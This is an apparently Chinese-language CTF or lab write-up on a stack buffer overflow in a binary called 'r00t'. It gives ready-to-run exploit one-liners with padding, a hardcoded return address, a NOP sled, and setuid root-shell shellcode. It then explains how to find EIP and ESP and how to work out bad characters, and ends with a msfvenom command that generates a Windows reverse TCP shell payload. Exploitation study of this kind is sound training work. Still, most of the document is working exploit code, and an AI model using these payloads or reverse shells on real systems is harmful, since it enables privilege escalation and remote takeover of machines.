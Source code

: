 0xbffffb80
\x80\xfb\xff\xbf

run $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90" * 20 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')

./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90" * 20 + "\x6a\x17\x58\x31\xdb\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"')

----------------------------------------

方法2：

1）找esp值：验证EIP
./r00t $(python -c 'print "A" * 300')
r $(python -c 'print "A"*268 + "B"*4')
r $(python -c 'print "A"*268 + "B"*4 + "C"*20')


2）获取ESP（下一跳值）
0xbffffb80
\x80\xfb\xff\xbf


3）确认坏字符
缓冲区溢出的在生成shellcode时，会影响输入的字符，比如’n’字符会终止输入，会截断输入导致我们输入的字符不能完全进入缓冲区。常见的坏字符有x0a、x0b、x00


现在生成一串与字节数组相同的坏字符。以下 python 脚本可用于生成从 \x01 到 \xff 的坏字符字符串：
---------
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
---------
r $(python -c 'print "A"*171 + "B"*4 + ""')


x/256x $esp   ---如果出问题就x和b换用

能看到1-8是正常的，后门就全乱了，怀疑0x08后面的0x00和0x09是个坏字符，至于后面全乱序猜测是因为0x0a换行符的问题。重新来，去掉0x09和0x0a：

好看多了，但是从0x20又开始乱了，去掉0x20后门就好了。
注意：这一定要仔细看，因为看少了看错了都会导致msf的payload执行不成功！
重新来，去掉0x09、0x0a和0x20：

坏字符总结为0x09、0x0a、0x20、再加个0x00！（默认排除空字节\x00）
\x00 \x0a \x0b \x09  \x20

4）msf生成payload
-----------
windows：
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f py -v
